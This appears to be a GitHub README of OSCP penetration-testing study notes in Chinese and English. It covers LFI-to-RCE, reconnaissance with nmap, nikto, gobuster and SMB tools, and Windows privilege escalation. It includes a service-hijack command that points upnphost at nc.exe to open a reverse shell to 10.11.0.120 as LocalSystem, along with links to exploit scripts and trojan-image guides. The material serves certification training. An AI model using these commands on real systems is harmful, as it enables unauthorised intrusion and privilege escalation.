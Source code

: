 # Learn OSCP

### EXP

1. [01_lfi_phpinfo_exp.py](exps/01_lfi_phpinfo_exp.py)  利用 *LFI* 和 *PHPINFO* 到 *getshell*，[资料来源](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)



### **Hack Bar**

- *Remember turn off the automatic updates*

- *Post request not work as excepted*



### 识别操作系统位数

- *i686*  *i386* 代表 32 位操作系统
- *x86_64* 代表 64 位操作系统

### **在 64 位的 *kali* 上编译 32 位系统的exp**

- 安装特定依赖库

  ```bash
  $ apt-get install build-essential module-assistant gcc-multilib g++-multilib -y
  ```

- 编译

  ```bash
  $ gcc -m32 exp.c
  ```




### Reverse Shell & Spawning TTY & Upgrade it

[Reverse_Spawn_Upgrade_Shell](techniques/Reverse_Spawn_Upgrade_Shell)



*Nikto* 用于发现 *Web Server* 的默认配置、不安全的配置文件和程序。

```BASH
# nikto -h x.x.x.x  // Default 80
# nikto -h x.x.x.x -p 443,80  // multiple ports
# nikto -h https://url   // protocol, host
# nmap -p80 192.168.0.0/24 -oG - | nikto -h -   // scan multiple hosts
```



### LFI2RCE

原理：通过在服务器上写下代码，接着通过 *LFI* 利用该代码

- 通过包含 *Web Server* 或者 *ssh* 的日志
  - 用户有权限访问日志（大多数场景下是没有权限读取日志的）
  - 找到日志所在路径
    - *apache* */var/log/apache2/error.log*  */var/log/httpd-error.log*
    - *ssh /var/log/auth.log*
-  包含 *php://filter*  或 *php://input* 来实现
-  通过 *phpinfo.php* 和 *lfi* 来实现，[推荐资料](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)

***tip***： `%00` 截断仅适用于 *php* 版本低于5.3



场景如果是 *CMS* 的话，除了尝试寻找 *upload* 功能，切记观察其他功能，不要一条路走到底。





1. [LFI2RCE](https://www.exploit-db.com/papers/12992)

### Privilege Escalation for Windows


- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script smb-xxx x.x.x.x # 同时加载多个 NSE 脚本
```

[SMB-enumeration经典参考资料](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)



##### nmap 信息收集

```BASH
$ nmap -v -sV -sT --top-ports 10 --open x.x.x.x  # 快速扫描 top 10 端口

```



##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



###  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)
3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) 

##### 空闲时间

[社工钓鱼](https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/)

[图片木马](http://gv7.me/articles/2017/picture-trojan-horse-making-method/)


# ChangeLog
- 20190713 add 
- 20190711 update
- 20190710 init
